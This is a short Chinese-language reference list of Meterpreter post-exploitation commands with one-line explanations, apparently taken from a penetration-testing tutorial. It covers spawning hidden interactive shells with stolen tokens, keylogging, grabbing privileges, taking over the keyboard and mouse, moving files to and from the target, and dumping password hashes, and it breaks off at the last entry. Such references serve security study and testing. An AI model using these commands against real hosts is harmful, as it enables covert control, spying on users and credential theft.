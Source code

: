 shell

以所有可用令牌来运行一个交互的shell

execute -f cmd.exe -i

执行cmd.exe命令并进行交互

execute -f cmd.exe -i -t

以所有可用令牌来执行cmd命令

execute -f cmd.exe -i -H -t

以所有可用令牌来执行cmd命令，并隐藏该进程

rev2self

回到控制目标主机的初始用户账户下

reg command

在目标主机注册表中进行交互，创建，删除，查询等操作

setdesktop number

切换到另一个用户界面

screenshot

截屏

upload file

向目标主机上传文件

download file

从目标主机上下载文件

keyscan_start

针对远程目标主机开启键盘记录功能

keyscan_dump

存储目标主机上捕获的键盘记录

keyscan_stop

停止针对目标主机的键盘记录

getprivs

尽可能多的获取目标主机上的特权

uictl enable keyboard/mouse

接管目标主机的键盘和鼠标

background

将你当前的Meterpreter shell转为后台执行

hashdump
